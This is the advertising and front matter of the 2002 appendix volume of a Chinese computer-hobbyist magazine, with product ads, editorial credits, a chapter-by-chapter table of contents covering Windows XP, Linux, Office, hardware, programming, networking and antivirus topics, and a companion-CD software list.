# 电脑爱好者2002合订本（下）附录分册

9 大版块、近 30 个热门专题全新放送

### EPSON 爱普生





> “我的数码伙伴”周迅

#### 真“相”何止 6 色

#### 超强组合
联袂缔造真照片

爱普生 6 色真照片打印系列，精彩真相为你一一呈现。打印照片，6 色墨水必不可少。爱普生六色墨水，使照片暗部细节好，色彩更丰富。但真“相”何止 6 色！若想缔造真照片，还需要爱普生 6 色墨水和多项尖端喷墨打印科技联袂完成。全真数码影像技术（PRINT Image Matching II），尽数呈现数码相机拍摄的每个影像细节；A4 满幅四周无边距打印技术，照片自然精彩无边；高质量光泽照片纸打印，完全照片质感。这一切的尖端喷墨打印技术，爱普生全线 6 色喷墨打印产品皆能让你全部拥有！真“相”大白了，那就来亲身感受吧！










爱普生（中国）有限公司
地址：北京朝阳区东三环北路2号南银大厦28层 邮编：100027
http://www.epson.com.cn
售前服务咨询热线：800-810-9977 售后技术支持热线：010-64107315 021-58669858/9750
维修负责：爱普生（北京）技术服务有限公司维修部 北京朝阳区光华路甲8号和乔大厦南座102室 电话：010-65812929
爱普生（北京）技术服务有限公司中关村维修部 北京海淀区中关村路17号科电大楼一层东 电话：010-62575848/83
爱普生（北京）技术服务有限公司西三环维修部 北京市海淀区西三环北路68号 电话：010-68458450/51/52/53
爱普生中关村展厅 地址：北京海淀区中关村大街22号中科大厦一层

登陆爱普生趣照乐园网站 www.photostation.epson.com.cn，注册成为会员，即可拥有免费的20兆存储空间，让你创建自己的电子相册，并随时与亲朋好友分享最新照片，更特设 iphoto 图像工作室，为图像增添多种效果，自然趣味多多。

★欢迎来信索取详细资料。
地址：北京 655 信箱颐园-289 组 邮编：100025
（只需在信中注明您的姓名、性别、职务、联系电话、传真、所在行业和公司名址、邮编、E-mail地址即可）

#### 爱普生专卖店(部分专卖店,排名不分先后):

北京爱惠佳010-82664650 北京启恒010-82663145 上海中纺021-62812836 温州科教0577-8815212 徐州业大0516-3806681/3755355 上海昭利021-64731583 南京新苏武025-3369960 杭州宏运0571-88210941
杭州蓝天0571-88211966 安徽图腾0551-3661935 广州沈苑020-38499145 广州天河蔚蓝020-38801560 深圳保利登0755-83681959/24 深圳怡宏信0755-83682058 深圳佳博0755-83685123 福州狂丰古屏0591-3372578
厦门新捷翔0592-2200613 广州泽桦020-38499062 广州翠辉佳020-38788229 广州交通020-87542134 南宁顶佳0771-5302928 成都兴瑞028-85447351 重庆汇丰023-67510238 昆明南方源0871-5160655
贵阳金泰0851-5284646 沈阳亿达024-23989860 沈阳天港024-23881770 武汉康悦027-87646048 长沙创锐0730-4131460 江西怡和0791-8609215 乌鲁木齐新龙爱普0991-2867180
此广告内容解释权归爱普生（中国）有限公司所有。为保证您享受爱普生公司全面售后服务，请在购机时认明CCIB（中国进出口商检局）认证标志，同时请使用爱普生正品耗材，以确保完美打印品质。

人民邮电出版社
POSTS & TELECOMMUNICATIONS PRESS

Bound Edition

## PINNACLE STUDIO
### Version 8

### 将你的家庭电影永远保存在记忆中

- SHOOT
- EDIT
- RECORD
- BURN TO DISC
- VIEW


极其容易地把你的家庭电影在电脑上刻录成VCD和DVD

想象一下，能够将好莱坞的电影风格带入您的家庭电影……Pinnacle Studio将帮你实现这种可能。

自从1998年以来，Pinnacle Studio产品在全球赢得了近100个奖项，其中包括全球极有声望的电脑和视频媒体评出的最高奖项。

Studio是畅销全球的视频编辑软件，拥有近400万的用户，第8版在原版本基础上增加和改善了很多功用。可以确保所有的视频爱好者进行MPEG1和MPEG2格式的编辑，兼容许多最新的技术（例如Sony的MicroMV格式）和一些令人难以置信的功能来轻松创建VCD和DVD。

用Pinnacle Studio 8制作能够永存记忆的家庭电影

#### PINNACLE STUDIO VERSION 8的全新解决方案





品尼高客户联络中心
北京、上海、广州用户请直接拨打95000288，
其它地区请在号码前加拨010(或020或021)
E-mail: Hotline@pinnaclesys.com


## 更权威的有声双解海量词典
### 更权威的中日英多专业翻译家

新增 49 部权威辞书(全国名词委审定公布)
横跨 512 行业, 总计 174000 个例句。
翻译中、英、日、韩、俄、德、法 7 国语言!
(企业版)

隆重上市, 欢迎选购!
咨询电话: 010-86243222
登陆: www.kingsoft.net
获取更多精彩活动信息






装备强大检索引擎的知识宝库
更权威的中日英多专业翻译家
更权威的有声双解海量词典

## 《金山词霸 2003》专业版——更权威的有声双解海量词典



除了上述的新功能之外，词霸还有多达 100 多处的改进，包括英语学习、订制光标词库等更体贴的操作方式，方便您获取更专业权威的翻译结果。

更权威: 新增 49 部权威辞书  NEW
由王大珩、张光斗、吴阶平等 200 多位院士、1800 位专家参与编纂, 横跨生物、化学、水利、石油、天文学等专业, 耗资 2500 万, 历时 17 年著作完成。(原书定价: 19250 元)

更易用: 新增全文检索功能  NEW
全文检索: 可飞速检索金山词霸超过 2 亿汉字的浩如烟海的内容, 可以轻松检索单词的例句, 可以并列输入单词进行检索。
模糊查找: 只要记得大概的发音, 也能搜索到你想要找的单词。
浏览器查词: 采用 DIC 技术, 可直接在 IE 地址栏中输入单词进行查词。

更专业: 有声双解海量内容
采用国际一流的 TTS 语音技术, 纯正美音, 可以轻松流畅地朗读整句、整段乃至整篇文章, 对纠正发音很有帮助。
每个单词配有音标、辞源、解释、词组、例句、词性变化等内容, 解释详尽, 还支持英文单词的模糊查询。

## 《金山快译 2003》专业版——更权威的中日英多专业翻译家



- 翻译引擎全面升级, 翻译质量更高  NEW
拥有中英、英中、日中等六套翻译系统, 快速完成全文翻译。结合人工智能, 自动辨别语尾变化和假名汉字, 绝非其他逐字翻译或单字翻译软件可比。
- 新增 49 部权威辞书, 翻译更专业  NEW
新增 49 部权威辞书(全国名词委会审定发布)。实现了针对医学、法律、财经、工商管理、商业等 80 个专业的英汉、汉英翻译特别优化。
- 汉化包全面更新, 总计 1200 个  NEW
针对 ACDSee 5.0 , winamp3 等 200 多个最新英文软件深度汉化, 即刻拥有永久中文版。汉化包总数超过 1000 个。
- 网页翻译更加快速准确  NEW
即时翻译英文日文网站, 翻译后版式不变, 提供智能型词性判断, 可以根据翻译的前后文给予适当的解释。

## 世纪之星
### Power Supply




ISO9002 Quality Assured Firm

### 全国销售公司业务联系电话

| 地区 | 电话 | 地区 | 电话 | 地区 | 电话 | 地区 | 电话 |
|---|---|---|---|---|---|---|---|
| 汕头 (A) | 0754-8175208 8175212 | 汕头 (B) | 0754-8847054 8164842 | 厦门 | 0592-2233187 | 南宁 | 0771-5323020 |
| 北京 (A) | 010-82865153 13321162179 | 北京 (B) | 010-82621116 82621115 | 温州 (A) | 0577-88815212 88861051 | 温州 (B) | 0577-88855200 88855300 |
| 上海 | 021-64734461 13817537292 | 贵州 | 0851-5280293 5803322 | 沈阳 | 024-23966723 13609812863 | 石家庄 (A) | 0311-7882740 |
| 广州 (A) | 020-85512170 13570032811 | 武汉 | 027-87214560 13907168533 | 中山 | 0760-8610752 | 哈尔滨 | 0451-2549666 2534777 |
| 广州 (B) | 020-87537850 87588914 | 昆明 | 0871-5179719 5145447 | 泉州 | 0595-2184866 2579788 | 东北总代 | 024-23966723 23966281 |
| 成都 | 028-85227668 13608065075 | 兰州 | 0931-8277129 13893166102 | 济南 (A) | 0531-6416964 6466459 | 长春 | 0431-5669951 5669952 |
| 西安 | 029-5598378 13909260145 | 郑州 (B) | 0371-3973001 | 大连 | 0411-3624411 3674400 | 乌鲁木齐 | 0991-2813783 2838778 |
| 杭州 (A) | 0571-88212144 13958163345 | 长沙 | 0731-4166513 | 石家庄 (B) | 0311-7876367 | 合肥 | 0551-3663006 |
| 南京 | 025-4802036 13905185254 | 重庆 | 023-68790665 13908320468 | 佛山 | 0757-2253836 | 汕头 | 0754-8877284 |
| 郑州 (A) | 0371-3574596 13837153715 | 杭州 (B) | 0571-88271847 88271643 | 海口 | 0898-66718548 | 东莞 | 0769-2114148 2456306 |
| 福州 | 0591-3320106 | 珠海 | 0756-2116269 | 深圳 | 0755-83688080 13802577689 | 肇庆 | 0758-2264038 |
| 青岛 | 0532-3809696 3810491 | 太原 | 0351-8710066 | 济南 (B) | 0531-6460392 6460391 |



## “款款”深情，引领未来

作为扫描仪行业的领航企业，方正一直致力于为不同用户提供全面的影像输入解决方案。“款款”深情，引领未来，方正扫描仪总有一款适合您……



### F系列商用扫描仪

- 型号: F7100
- 宣传语: 轻松扫描 满足商务需求
- 特点:
  - ◇1200dpi经济型商用扫描仪
  - ◇48位色彩，14位灰阶，1位黑白专业配置
  - ◇方便的快捷按键，轻松实现商务需求
  - ◇玲珑小巧的外形设计，充分节省办公空间

- 型号: F7200
- 宣传语: 清晰扫描 如临其境
- 特点:
  - ◇真正的1200dpi×2400dpi高光学分辨率
  - ◇48位色彩深度，令图像色彩更饱满
  - ◇自动锁功能，让您的扫描仪更安全
  - ◇五个智能快捷按钮，更加提升办公效率

- 型号: F8288
- 宣传语: 不可多得的 全彩扫描仪
- 特点:
  - ◇1200dpi×2400dpi光学分辨率，动态密度3.0D
  - ◇42位的精彩空间任你遨游，画质更美
  - ◇A4加长的扫描面积，满足您扫描多一点的需求
  - ◇选配专业的透扫适配器，保证扫描结果准确

- 型号: F9210
- 宣传语: 商务新锐 精彩无限
- 特点:
  - ◇2400dpi超高分辨率，精确再现图像细节
  - ◇48位真彩色，令扫描结果精美、润泽
  - ◇预扫时间6秒，速度非凡
  - ◇大尺寸透扫功能，正片、负片、幻灯片轻松搞定

### 超越T系列家用扫描仪

- 型号: 超越T15
- 宣传语: 鲜嫩无比 满意无比
- 特点:
  - ◇600dpi×1200dpi光学分辨率
  - ◇42位彩色
  - ◇冷光阴极射线管
  - ◇五个功能键：扫描、复印、电邮、传真、OCR

- 型号: 超越T18
- 宣传语: 可爱身形 质在其中
- 特点:
  - ◇600dpi×1200dpi光学分辨率
  - ◇内置透扫适配器，随机赠送多种格式片夹
  - ◇48位色彩深度，令图像色彩更加饱满
  - ◇自动锁功能，让您的扫描仪更安全

- 型号: 超越T25
- 宣传语: 蓝影闪现 见倾心
- 特点:
  - ◇真正的1200dpi×2400dpi高光学分辨率
  - ◇48位色彩深度，令图像色彩更加饱满
  - ◇自动锁功能，让您的扫描仪更安全
  - ◇特有节能按钮，真正为节约能源考虑

- 型号: 超越T28
- 宣传语: 超凡脱俗 睿智尊贵
- 特点:
  - ◇真正的1200dpi×2400dpi高光学分辨率
  - ◇配备透扫适配器，附赠多种格式片夹
  - ◇48位色彩深度，令图像色彩更加饱满
  - ◇自动锁功能，让您的扫描仪更安全

方正扫描仪岁末促销，购任一款方正超越T系列扫描仪，送1套(7个)小矮人；限量赠送10000套，送完为止。（详情请见全国各地卖场促销海报）

### Z系列专业/特殊用途扫描仪

- 型号: Z310
- 宣传语: A3大幅面 USB接口，快速扫描
- 特点:
  - ◇400dpi×800dpi光学分辨率
  - ◇48位彩色，16位灰阶，1位黑白
  - ◇A3大幅面扫描
  - ◇USB接口

- 型号: Z630
- 宣传语: 胶片专用 一流品质
- 特点:
  - ◇3600dpi，35mm胶片专用
  - ◇36位彩色，12位灰阶，1位黑白
  - ◇自动进片，可整卷扫描
  - ◇双接口配置 (USB1.1/IEEE1394)

- 型号: Z810
- 宣传语: 多页自动进纸 高速扫描
- 特点:
  - ◇600dpi×1200dpi光学分辨率
  - ◇内置2MB缓存，极快扫描速度
  - ◇带自动送纸器ADF，连续多页扫描
  - ◇Pixel by Pixel技术，确保精确的彩色输出

- 型号: Z910
- 宣传语: 专业印前 完美品质
- 特点:
  - ◇2400dpi超高分辨率，高清晰度精彩无限
  - ◇动态密度3.4D，图像品质更完美
  - ◇多次多张和单次多张扫描模式实现高效高能
  - ◇操作简单，为您提供友好用户界面

方正扫描仪全系列产品都随机赠送超值方正软件包（内含方正画苑图像处理软件，方正OCR文字表格识别软件等）

# 电脑爱好者

合订本

2002年（下）·附录分册

《电脑爱好者》杂志社 编

人民邮电出版社

**航嘉**

**PC电脑的静音空间**
**冷静电源系列机箱及散热产品**

**超大风量 超低静音**
**冷静技术 以人为本**
**---- 联合著名电脑厂商一致推荐国内首选品牌 ----**

**冷静舒适 卓尔不凡**
**---- 深圳市航嘉实业有限公司 ----**

| 项目 | 内容 |
| :--- | :--- |
| 网址 | www.belson.com.cn |
| 电话 | 0755-8924900 |
| 免费服务热线 | 8008303368 |

## 【内容提要】

《电脑爱好者合订本》2002年(下)·附录分册是一本全新组稿、容量惊人、聚焦热点、荟萃精华的综合应用类电脑图书。

全书设有系统专区、办公一族、设计论坛、硬件沙龙、编程课堂、网络天地、网页作坊、安全阵营、职场培训等9大版块，近30个专题，覆盖软件、硬件、网络、多媒体、图形图像、系统安全等全部电脑应用领域。

图书配套光盘全力打造“超软黄金屋”、“全免费软吧”和“附录相关软件”三个精彩频道，为读者献上总价值逾800元的数款知名正版软件及由数百款实用精品软件组成的全免费套餐。

本书以热门应用专题和系统解决方案为主，内容全面，深入透彻，实例丰富，讲解生动。适合各种程度的电脑用户及渴望提高技术水平的广大爱好者阅读学习。

- 《电脑爱好者》总 编：刘雅英
- 《电脑爱好者》执行总编：高 翔
- 《电脑爱好者》编辑策划：张春雨(主编) 黄平山 陈荣贵 付振华
- 《电脑爱好者》技术支持：cf_hdb@cfan.com.cn
- 《电脑爱好者》网 址：http://www.cfan.com.cn
- 《电脑爱好者》杂志社社址：北京市海淀区北三环西路48号 科技会展中心1号楼A座22层

## 目录

### 系统专区

#### 擦亮你的视窗——Windows XP应用进阶

- 一、Windows XP安装卸载一席谈.......................... 24
- 二、Windows XP系统优化.................................... 28
- 三、Windows XP高级配置技巧................................ 34
- 四、打造个性化Windows XP.................................. 35
- 五、让旧版程序重现生机.................................... 39
- 六、找回Windows XP“丢失”的东东.......................... 40
- 七、一机多用户权限设置的技巧............................. 41
- 八、Windows XP的数据备份.................................. 44
- 九、应用组策略保护共享资源............................... 45
- 十、卸载顽固程序.......................................... 46
- 十一、Windows XP中的网络应用技巧......................... 47
- 十二、Windows Messenger高级使用技巧...................... 48
- 十三、Windows XP的防黑与防毒技巧......................... 48

## 从零起步Linux全接触

- 一、认识Linux............................................ 53
  - (一) Linux的发展概述................................... 53
  - (二) Linux的家族....................................... 53
- 二、Linux的安装配置与卸载................................ 55
  - (一) 看看Linux是否适合你的计算机....................... 55
  - (二) 开始安装Linux..................................... 55
  - (三) Linux的多系统共存之道............................. 60
  - (四) 轻松卸载Linux..................................... 61
- 三、Linux的用户管理...................................... 61
  - (一) 使用命令行方式添加、修改账号及组................. 61
  - (二) 在X Window下进行用户管理......................... 62
  - (三) 限制用户的磁盘空间——设置磁盘限额............... 63
- 四、Linux的常规设置...................................... 64
  - (一) 操作文件及目录................................... 64
  - (二) 设置文件及目录权限............................... 66
  - (三) 配置X Window..................................... 67
  - (四) 编译内核......................................... 69
  - (五) 使用Windows分区.................................. 70
  - (六) 理解Linux的常用目录.............................. 71
  - (七) 关机和重新启动................................... 71
- 五、Linux的常用软件...................................... 71
  - (一) Linux的常用办公软件.............................. 72
  - (二) Linux的常用图像处理软件.......................... 73
  - (三) Linux的常用工具软件.............................. 74
  - (四) Linux应用软件的安装.............................. 76
- 六、Linux下的多媒体娱乐.................................. 76
  - (一) 如何使不被识别的声卡发声......................... 76
  - (二) 播放CD............................................ 77
  - (三) 播放MP3........................................... 77
  - (四) 播放RM............................................ 77
  - (五) 安装多媒体影音中心——强大的MPlayer............... 78
- 七、Linux的网络设置和管理................................ 79
  - (一) 拨号上网......................................... 79
  - (二) ADSL上网......................................... 81
  - (三) 配置局域网....................................... 82
  - (四) 设置防火墙....................................... 84

## 办公一族

## Excel XP中的函数及其应用

- 一、函数的概述......................................... 87
- 二、函数的使用方法..................................... 88
- 三、函数应用实例....................................... 89

#### 玩转 Office XP的宏

- 一、关于宏的一些基本概念.............................. 91
- 二、录制自己的宏...................................... 92

## Word XP的精髓——域的使用

- 一、认识域............................................. 98
- 二、插入域............................................. 98
- 三、锁定域............................................. 99
- 四、域开关............................................. 99
- 五、Word的预定义域..................................... 99
- 六、多面手EQ域........................................ 99

## Excel XP公式及其应用

- 一、什么是Excel公式................................... 100
- 二、创建公式.......................................... 101
- 三、编辑公式.......................................... 102
- 四、快速完成某些计算.................................. 103
- 五、将公式隐藏起来.................................... 103
- 六、Excel公式中常见的错误信息........................ 103

#### Office XP模板——让你的工作更高效

- 一、模板的基本概念.................................... 105
- 二、Office XP中模板的分类............................ 105
- 三、使用现有模板...................................... 105
- 四、安装和删除不必要的模板............................ 105
- 五、修改定制自己的模板................................ 106
- 六、共享你的Word模板................................. 106
- 七、使用网络模板...................................... 106
- 八、PowerPoint XP的第三方模板......................... 106

#### 让插件把 Office XP打点得更精彩

- 一、小型语言套件——让Office XP也具有多重语言界面...... 107
- 二、Office短信智能标记——让Office XP也能发送短信...... 107
- 三、WordRecovery插件——修复Word文件有保障........... 107
- 四、Save My Settings Wizard插件——Office 2000设置迁移也方便 107
- 五、简繁转换增益集——快速转换简繁字................... 107
- 六、中文日期智能标记——让Word XP日期更智能........... 108
- 七、Office XP标点符号安装程序——这样输入标点有点酷... 108
- 八、Office XP SP1 Speller——不放走一个错字............ 108
- 九、Office XP帮助文件更新程序——让Office帮助更全面.... 108
- 十、使用插件转换大写金额............................... 108
- 十一、Word 2002 Support Template插件——把Word的自动更正信息保存起来 108

## 让你的Office更生动——Office中的多媒体应用

- 一、Office XP多媒体应用简述........................... 109
- 二、实例应用.......................................... 109

#### 巧思妙用Office XP

- 一、Office XP控制技巧................................ 113
- 二、Word XP使用技巧.................................. 114
- 三、Excel XP使用技巧................................. 118
- 四、PowerPoint XP使用技巧............................ 121

### 设计论坛

#### 广告设计案例“文明的进步”

- 一、制作主体“石碑”.................................. 123
- 二、制作招贴.......................................... 126

#### Photoshop特效信手拈来

- 一、图形特效.......................................... 127
  - (一) 3D球体......................................... 127
  - (二) 结晶体......................................... 128
  - (三) 光芒四射....................................... 128
  - (四) 网格球体....................................... 129
  - (五) 触角........................................... 130
  - (六) 抽线图......................................... 131
  - (七) 人工降雪....................................... 132
- 二、纹理与文字特效...................................... 133
  - (一) 霓虹描边字..................................... 133
  - (二) 石材纹理....................................... 133
  - (三) 木纹........................................... 134
  - (四) 挖剪字......................................... 135
- 三、Action脚本特效...................................... 135
  - (一) 黑金........................................... 136
  - (二) 削边........................................... 136
  - (三) 蛇纹........................................... 137
  - (四) 扫描点......................................... 137
  - (五) 泥陶........................................... 137
  - (六) 蜡烛........................................... 137
  - (七) 碎边........................................... 137
  - (八) 立体........................................... 137
  - (九) 墙纸........................................... 137
  - (十) 多层........................................... 137

## 硬件沙龙

## 笔记本电脑完全手册

- 一、笔记本电脑初窥.................................... 139
  - (一) 笔记本概述..................................... 139
  - (二) 笔记本的技术................................... 139
  - (三) 笔记本的性能参数............................... 140
- 二、笔记本电脑的选购.................................... 141
  - (一) 机型........................................... 141
  - (二) 品牌........................................... 141

## 笔记本电脑结构剖析
### (一)笔记本外部接口
### (二)笔记本内部结构

## 笔记本电脑日常维护及优化
### (一)笔记本的移动和放置
### (二)笔记本的散热
### (三)笔记本的防潮
### (四)笔记本的防磁
### (五)笔记本日常维护须知

## 笔记本电脑的更新与升级
### (一)内存
### (二)硬盘
### (三)其他配件

## 年终硬件大盘点——电脑配件评析与采购
### 一、CPU篇
#### (一)2002年下半年CPU市场概述——电脑配件评析与采购
#### (二)2002年下半年市场主流CPU产品大比拼
#### (三)主流CPU选购一家谈
#### (四)选购注意事项
### 二、主板篇
#### (一)芯片组
#### (二)产品
#### (三)选购须知
### 三、显卡篇
#### (一)2002年下半年显示芯片市场概述
#### (二)主要显卡品牌及产品推荐
#### (三)显卡选购须知
### 四、硬盘与内存篇
#### (一)硬盘
#### (二)内存
### 五、存储驱动器篇
#### (一)2002年下半年光驱、DVD、刻录机、COMBO市场概述
#### (二)2002年下半年主流光驱、DVD、刻录机
#### (三)2002年下半年移动硬盘、USB闪盘市场及产品简介
## 六、显示器篇
#### (一)CRT显示器
#### (二)LCD显示器
## 七、音频设备篇
#### (一)2002年下半年声卡市场及产品简述
#### (二)下半年音箱、耳机市场及产品简述
## 八、机箱电源篇
#### (一)选购机箱
#### (二)选购电源
### (三)推荐产品

## 将硬件维护与优化进行到底
### 一、电脑硬件的常见故障隐患及其防范
#### (一)内存的故障隐患
#### (二)超频导致的故障隐患
#### (三)板卡部件的故障隐患
#### (四)CMOS设置导致的故障隐患
#### (五)机箱和电源的故障隐患
### 二、电脑保养与维护
#### (一)电脑的使用环境
#### (二)电脑设备的清理维护

## 编程课堂

## 编程的艺术
### 一、代码的艺术性
#### (一)使用注释(comment)
#### (二)使用空白(Blank)
#### (三)标识符(Identifier)
### 二、代码的鲁棒性
#### (一)小心掉进错误陷阱
#### (二)利用调错方法自救
### 三、代码的可用性
#### (一)代码的可移植性(Portability)
#### (二)代码的可扩展性(Expansibility)
#### (三)代码的可复用性(Reusability)
### 四、代码的效率
#### (一)换机器还是改代码
#### (二)衡量程序的时间效率
#### (三)提高程序的时间效率
### 五、结束语

## QQ是怎样编出来的——VC++进阶教程
### 一、VC入门
#### (一)VC概述
#### (二)如何学好VC
#### (三)VC伴侣
#### (四)VC工程
### 二、编程才是硬道理
#### (一)我们要做的
#### (二)小试牛刀(FakeQQ v1.0)
### 三、高级应用技巧
#### (一)注册表(FakeQQ v1.1)
#### (二)系统托盘TrayIcon(FakeQQ v1.2)
#### (三)网络功能 (FakeQQ v2.0)
#### (四)数据库 (FakeQQ v2.1)
#### (五)线程 (FakeQQ v2.2)
#### (六)其他
### 四、FakeQQ的使用方法
### 五、结束语

# **商业游戏编程内幕** 244
## 一、技术基础 244
### （一）人员 244
### （二）编程平台 244
### （三）编译环境 244
### （四）背景知识 244
## 二、游戏底层 244
### （一）显示底层 245
### （二）多媒体播放底层 245
### （三）文件封装底层 245
### （四）界面底层 245
### （五）特殊底层 245
## 三、编写规则 245
## 四、程序设计 246
### （一）程序设计总纲 246
### （二）程序模块划分 246
### （三）程序开发计划 247
## 五、程序调试 247
### （一）屏蔽法 247
### （二）比较法 248
### （三）输出Log文件法 248
## 六、真实的游戏案例 248
### （一）模块划分 248
### （二）游戏引擎 249
### （三）关键讨论 249
## 七、Windows游戏程序模板 251

# **网络天地**

# **精彩宽带网** 257
## 一、宽带应用综述 257
### （一）宽带网简述 257
### （二）宽带的特点和优势 257
### （三）宽带来了，我们能作什么 257
## 二、架设个人网站服务器 257
### （一）动态域名解析 258
### （二）架设个人Web服务器 262
## 三、远程控制 267
### （一）什么是远程控制 267
### （二）遥控你的电脑 268
### （三）管理你的电脑 270
### （四）实时监控你的家 276
## 四、宽带网上的聊天与通信 283
### （一）宽带网上的语音聊天 283
### （二）宽带网上的视频聊天 286
### （三）听得见、看得到的宽带时代邮件 290
## 五、宽带网络视听 292
### （一）网络视听概述 292
### （二）网络视听实战指南 294
### （三）宽带网络视听资源网址 296
## 六、宽带网优化 296
### （一）软件优化 296
### （二）硬件优化 301

## 无线通信网络全接触
### 一、WAP 神话的崛起与破灭
#### (一) WAP的诞生和成长
#### (二) WAP的技术原理浅析
#### (三) WAP技术的实际应用
#### (四) 如何利用手机浏览WAP网页
### 二、GPRS 是主流还是过渡
#### (一) 什么是GPRS
#### (二) GPRS的五大优点
#### (三) GPRS终端上网速率的影响因素
#### (四) GPRS的终端类型
#### (五) GPRS的主要应用形式
#### (六) GPRS在中国
#### (七) 主流GPRS手机的选购指南
#### (八) GPRS上网设置跟我学
#### (九) 用笔记本借助GPRS手机上网
### 三、CDMA 绝地反击
#### (一) 什么是CDMA
#### (二) CDMA技术的优势
#### (三) CDMA在中国
#### (四) 主流CDMA手机导购指南
### 四、红外数据通讯
#### (一) 什么是红外线
#### (二) 红外线在通讯中的特点
#### (三) 先进的FIR
#### (四) 红外通讯应用实例
### 五、蓝牙技术全接触
#### (一) 蓝牙是什么
#### (二) 蓝牙为何难流行
#### (三) 怎样用上蓝牙
### 六、无线局域网全接触
#### (一) 无线局域网的现状
#### (二) 无线局域网的标准
#### (三) 无线局域网产品的选购
#### (四) 实战无线局域网

## 通通透透话“代理”
### 一、代理服务器的功能
### 二、代理服务器的工作原理
### 三、代理服务器的获取途径
#### (一) 代理服务器的分类
#### (二) 搜索代理服务器
#### (三) 自己架设代理服务器
### 四、客户端软件代理服务的使用设置
#### (一) 浏览器的代理设置
#### (二) 聊天类软件的代理设置
#### (三) 邮件处理类软件的代理设置
#### (四) FTP类软件的代理设置
#### (五) 下载软件的代理设置
#### (六) 在线媒体播放类软件的代理设置
### 五、代理服务器的进阶使用
#### (一) “万能”的SocksCap
#### (二) 玩转代理协议转换
#### (三) 二次代理的使用技巧
#### (四) 突破封锁开服务——端口映射

## 网页作坊

### 三剑客另类应用
### 一、毕业求职光盘 336
#### (一)在Flash MX中制作开头动画和界面 336
#### (二)在Fireworks MX中制作栏目按钮“背板” 338
#### (三)在Flash MX中制作导航按钮 339
#### (四)制作栏目页面的图片和内容 340
#### (五)增加光盘自启动功能 341
### 二、测试你的洞察力如何 341
#### (一)准备HTML页面素材 341
#### (二)重新编辑图片和构建表格 342
#### (三)在Dreamweaver MX中导入文件 343
#### (四)建立内容和表单 344
#### (五)编写JavaScript脚本 344
### 三、品茗赏画 345
#### (一)在Fireworks MX中制作动画 345
#### (二)在Fireworks MX中输出SWF动画 347
#### (三)制作古画卷轴打开效果 347
#### (四)在Flash MX中调用茶杯动画 348
#### (五)在Flash MX中制作全屏切换按钮 349
#### (六)在Flash MX中调用背景音乐 349

### 网页设计美学原则
### 一、从“唯技术”回归到设计 350
### 二、风格定位 350
#### (一) 明确设计目的 351
#### (二) 分析浏览者 352
### 三、版面控制 352
#### (一) 文字 352
#### (二) 图像(包括动画) 353
#### (三) 对比 354
#### (四) 变化 355
#### (五) 重心 355
### 四、网页中的点、线、面 356
#### (一) 点 356
#### (二) 线 357
#### (三) 面 357
### 五、色彩运用 358
#### (一) 色彩的象征 358
#### (二) 冷暖色调与对比色调 359
#### (三) 背景色与字体的颜色 359
### 六、网页美学总论 359

## 安全阵营

### 个人病毒防护方案
## 一、病毒常识 361
### (一)什么是病毒 361
### (二)病毒的起源和发展 361
### (三)病毒产生的原因 362
### (四)计算机病毒的传播途径 362
## 二、病毒原理与实例讲解 363
### (一)引导型病毒原理 363
### (二)文件型病毒原理 364
### (三)混合型病毒原理 364
### (四)宏病毒编制原理 364
### (五)欢乐时光病毒源代码剖析 365
## 三、杀毒软件的杀毒原理 366
### (一)实时反病毒技术 366
### (二)32位内核技术 367
### (三)VxD机制 367
### (四)无缝连接 367
### (五)虚拟机技术 367
### (六)防毒芯片 368
### (七)主动内核(Active K)技术 368
### (八)检查压缩文件病毒技术 368

# 企业病毒防御措施 369
## 一、病毒对系统网络的威胁 369
## 二、防病毒系统设计实现 369
### (一)网关病毒防御(VRVGATE) 369
### (二)局域网内部病毒防御(Client&Server) 370

# 网络安全 371
## 一、恼人的恶意代码 371
### (一)篡改IE标题栏 371
### (二)篡改IE起始页 371
### (三)篡改IE工具栏 371
### (四)篡改IE默认的搜索引擎 372
### (五)篡改IE右键菜单 372
### (六)系统启动时弹出对话框 372
### (七)禁止修改注册表 372
### (八)格式化硬盘 373
## 二、居心叵测的木马 374
### (一)中了木马有何症状 374
### (二)木马是如何传播的 374
### (三)木马的伪装 374
### (四)如何查杀木马 375
### (五)典型木马程序的分析与查杀 376
### (六)其他常见木马程序的手工清除方法 378
### (七)如何防范木马 379
## 三、屏蔽攻击 379
### (一)邮件攻击 379
### (二)IP攻击 379
### (三)两款免费防黑工具 379

## 职场培训

# 创建个人工作室 381
## 一、执照问题 381
## 二、税费与发票问题 381
## 三、准备好硬件 381
### (一)电脑 381
### (二)打印机 382
### (三)复印机 382
### (四)扫描仪 382
## 四、准备好软件 382
### (一)字处理软件 382
### (二)图像编辑软件 382
### (三)矢量绘图软件 382## 印前制作基础入门

一、字符的知识

(一)字种与字体

(二)字号

(三)版面设计与排版规格

二、纸张

(一)纸张的构成

## 图像扫描技术讲解

一、扫描仪的种类

二、扫描仪质量的标准

(一)电荷耦合技术(CCD)

(二)分辨率与采样率

(三)最大成像面积

(四)位深度

(五)动态范围

三、怎样选择扫描仪

四、扫描实例

(一)准备好扫描仪和软件

(二)保持清洁

(三)定位图片

## 图解包装盒的制作

## 图书排版流程

一、了解图书的构成

二、版心设置

三、书眉页脚

四、置入文本和图形

五、收尾工作

## 配套光盘B软件目录

### 超软黄金屋

光盘路径:\Good\...

软件名称: VRV 杀毒软件黄金套装

软件简介:我们做过一个并不规范的测试， VRV杀毒软件的表现非常出色， 甚至可以分辨出木马的服务器端和客户端， 只查杀服务器端程序(木马部分)， 而其他杀毒软件会将客户端 (指控制程序部分) 误报为病毒并杀掉， 还有些产品无法查杀部分病毒和木马， 效果比较差。这次我们提供的VRV杀毒软件黄金套装是一个集杀毒软件、DOS杀毒盘、硬盘分区表维护、注册表修复、病毒隔离系统、硬盘备份等工具在内的完全正式版。

中软译星产品的专家级顾问服务将充分利用其无可匹敌的技术优势、深刻独到的行业眼光以及与译星核心开发小组的零距离接触优势， 实现对客户的核心技术服务， 帮助客户实现最大利润。

软件名称: 红旗 RedOffice 2003

软件简介: RedOffice for Windows已具备了Microsoft Office 2000 96%的功能， 与微软的 Word、Excel、Powerpoint 等软件的格式完全兼容， 并新增了许多实用性的功能， 从整体上提高了软件的易用性和稳定性。整个产品在中文的处理速度、处理效果、排版效果、稳定性和兼容性等方面均是StarOffice和OpenOffice所不能比拟的。而在产品定价上， RedOffice for Windows仅是 Microsoft Office 2000/XP的十分之一左右， 完全符合我国现有的软件消费水平。

- 英中、中英双向全文翻译、双向词典、鼠标取词翻译、鼠标取句翻译、可翻译 Word文档、Excel表格、 PowerPoint文稿、PDF文件和IE浏览器下的网页
